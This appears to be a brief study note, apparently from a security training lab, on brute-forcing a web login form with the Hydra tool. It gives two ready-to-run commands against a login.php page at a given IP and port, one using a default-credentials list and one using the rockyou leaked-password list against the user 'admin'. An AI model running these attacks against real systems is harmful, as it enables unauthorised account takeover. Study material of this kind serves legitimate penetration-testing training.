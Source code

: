 #BruteForcing #HydraSoftware #LoginFormAttack 

### Default Credentials
Using *ftp-betterdefaultpasslist.txt* to test if one of the accounts is registered in the web application.
``` bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
### Password Wordlist
Since default credential brute forcing did not work, we can try with a specified user. Usernames like *admin, administrator, wpadmin, root, adm* are unchanged. To specify the username *admin*.
``` bash
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```